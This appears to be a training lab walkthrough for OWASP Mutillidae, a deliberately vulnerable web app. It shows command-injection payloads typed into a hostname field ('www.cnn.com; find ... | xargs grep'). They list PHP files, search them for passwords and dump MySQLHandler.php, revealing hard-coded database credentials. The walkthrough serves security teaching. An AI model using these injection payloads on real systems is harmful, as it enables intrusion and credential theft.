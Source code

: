 #####   List all php scripts
```
                - Our next step is to try to figure out if any of the php scripts located under /var/www/html/mutillidae contain a database username and password.
                - But, first list all the php scripts.
                - www.cnn.com; find /var/www/html/mutillidae -name "*.php"
                - There is over 900+ php scripts.
```
#####   Search php scripts for the string password
```
                - Now we will search the 900+ php scripts for the string "password" and "=".
                - www.cnn.com; find /var/www/html/mutillidae -name "*.php" | xargs grep -i "password" | grep "="
                - View your Results (Continue to next step).
```
#####   Obtain password from search results
```
  - Now you have to look closely to see the string password and the actual password "samurai".
  - Notice that the MySQLHandler.php contains the following string:
  - $mMySQLDatabasePassword = "samurai";
                ```
#####   Search MySQLHandler.php for the strings user OR login
- We now know that MySQLHandler.php contains the database password.
- The only thing left it to obtain the database username for the password samarai.
- www.cnn.com; find /var/www/html/mutillidae -name "MySQLHandler.php" | xargs egrep -i '(user|login)' | grep "="
- View your Results (Continue to next step).
#####   Obtain username from search results
                - Notice that the MySQLHandler.php contains the following string:
                - $mMySQLDatabaseUsername = "root";
                - Notice the MySQL connection method.
                - mMySQLConnection = new mysqli($HOSTNAME, $USERNAME, $SAMURAI_WTF_PASSWORD);
#####   Display MySQLHandler.php
                - I guess I could have showed you this first, but good things come to those that wait.
                - It is possible to display the contents of the MySQLHandler.php program, by encoding the "<?php" and "?>" tags.  These tags tell apache to execute a php script.  To get around this problem and just display the text of the program, we change "<" to "&#60;" and ">" to "&#62;".
                - www.cnn.com; find /var/www/html/mutillidae -name "MySQLHandler.php" | xargs cat | sed 's/</\&#60;/g' | sed 's/>/\&#62;/g'
                - View your Results (Continue to next step).
#####   Viewing the Code
                - Kind of scary,,, right?
                - Typically, you should never put authentication information into a program that accesses a database on the web.
##### Database Username
                    - static public $mMySQLDatabaseUsername = "root";
##### Database Password
                    - static public $mMySQLDatabasePassword = "samurai";
##### Database Name
                    - static public $mMySQLDatabaseName = "nowasp";
